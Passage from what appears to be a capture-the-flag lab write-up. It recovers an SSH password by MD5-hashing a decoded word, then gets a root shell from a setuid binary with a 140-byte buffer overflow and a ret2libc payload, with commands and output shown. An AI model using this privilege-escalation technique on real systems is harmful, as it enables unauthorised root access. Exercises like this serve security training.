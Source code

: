 ```

* The file turtule is actually a draw map for letters that gives us : SLASH
* It is said in the README to be used with 'zaz' user.
* Encrypting it in sha1-2-256 didn't work so we try in md5 and... it works !

```646da671ca01bb5d84dbb5fb2238dc8e```

* We can now connect with ssh as "zaz".

Directory : /home/zaz/
-------------------------------------------------------------------------------

In this directory we find

```
ls
exploit_me  mail
```
* If we open exploit_me into gdb we notice that we can use a buffer overflow at 140 bytes to overwrite the %eip register.

https://ru.wikipedia.org/wiki/%D0%9F%D0%B5%D1%80%D0%B5%D0%BF%D0%BE%D0%BB%D0%BD%D0%B5%D0%BD%D0%B8%D0%B5_%D0%B1%D1%83%D1%84%D0%B5%D1%80%D0%B0

```./exploit_me $(python -c "print('A' * 140)")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
* Since the file is root file, we can spwan a root shell with a ret2libc attack.
* We use gdb to find the address of system function, "/bin/bash" string and the idea is :
	- overwrite the %eip register with the system address from libc
	- put on the stack at %eip+8 the "/bin/sh" address

* Using python, that gives us :

```
./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
# TADAM WE ARE ROOT !

